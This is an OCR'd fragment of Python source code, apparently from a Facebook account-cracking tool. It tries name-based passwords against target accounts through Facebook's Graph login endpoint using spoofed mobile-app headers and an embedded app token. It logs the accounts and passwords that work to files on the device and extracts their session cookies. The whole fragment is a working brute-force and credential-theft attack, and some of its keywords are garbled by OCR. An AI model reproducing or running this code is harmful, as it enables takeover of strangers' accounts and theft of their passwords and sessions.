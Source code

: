         pers = str(int(loop)/int(len(accounts)) * 100)[:4]
        sys.stdout.write('\r\033[1;91m[\033[1;97mhxw-m1\033[1;91m]\033[1;97m {}-{} \033[1;91m[\033[1;97m{}\033[1;91m] \033[1;97mok : \033[1;92m{} \033[1;97mcp : \033[1;91m{}       \r'.format(str(loop), str(len(accounts)), pers , str(len(okacc)) ,str(len(cpacc))))
        sys.stdout.flush()
        for pword in totalpass:              
            heads = none
            header = {"content-type": "application/x-www-form-accencoded","host": "graph.facebook.com","user-agent": heads,"x-fb-net-hni": "45204","x-fb-sim-hni": "45201","x-fb-connection-type": "unknown","x-tigon-is-retry": "false","x-fb-session-id": "nid=jiz+ynnbgbwc;pid=main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","x-fb-friendly-name": "viewerreactionsmutation","x-fb-request-analytics-tags": "graphservice","accept-encoding": "gzip, deflate","x-fb-http-engine": "liger","x-fb-client-ip": "true","x-fb-server-cluster": "true","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","connection": "keep-alive"}
            pword = pword.replace("first", first).replace("last", last)
            pword = pword.lower()
            data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pword,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_us","client_country_code": "us","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.fb4aauthhandler","api_key": "882a8490361da98702bf97a021ddc14d"}
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=false)
      #      print(response.text)
            if 'session_key' in response.text:
                okacc.append(acc)
                print('\r\033[1;92m[\033[1;97mhannan-ok\033[1;92m] \033[1;97m'+acc+' \033[1;92m•\033[1;97m '+pword+'  ')
                open('/sdcard/hannan-ok.txt','a').write(f'{acc} • {pword}\n')
                if c=='y':
                    try:
                           q = json.loads(response.text)
                           ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                           ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                           cookies = f"sb={ssbb};{ckkk}"
                    except exception as e:print(str(e)+' | '+response.text)
                break
            elif 'www.facebook.com' in response.text:
                if cpok=='n':
                     pass
                else:
                     print('\r\033[1;91m[\033[1;97mhannan-cp\033[1;91m] \033[1;97m'+acc+' \033[1;91m•\033[1;97m '+pword+'   ')
                cpacc.append(acc)
                open('/sdcard/hannan-cp.txt','a').write(f'{acc} • {pword}\n')
                break
            else:
                continue
        loop += 1
     except exception as e:time.sleep(10)
   